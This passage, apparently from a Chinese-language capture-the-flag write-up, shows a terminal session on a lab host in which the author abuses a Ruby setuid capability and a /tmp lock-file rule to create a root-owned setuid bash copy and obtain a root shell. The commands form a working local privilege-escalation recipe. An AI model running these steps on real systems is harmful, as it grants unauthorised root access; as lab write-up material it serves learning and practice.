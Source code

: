 ```bash
```

让 GPT 帮助我进行解读之后我了解了一些内容, 这里唯独只对 `/tmp/.X[0-9]*-lock` 做了额外的配置, 也许我们可以借此来进行利用

```bash
alvin@rocket:/tmp$ cp /bin/bash .X1-lock
alvin@rocket:/tmp$ chmod u+s .X1-lock 
alvin@rocket:/tmp$ /usr/bin/ruby2.5 -e 'Process::Sys.setuid(0); exec "cp --preserve=mode /tmp/.X1-lock /tmp/.X2-lock"'
alvin@rocket:/tmp$ ls -al .X2-lock 
-rwsr-xr-x 1 root alvin 1113504 Dec  3 10:58 .X2-lock
alvin@rocket:/tmp$ ./.X2-lock -p
.X2-lock-4.4# id
uid=1000(alvin) gid=1000(alvin) euid=0(root) groups=1000(alvin)
```
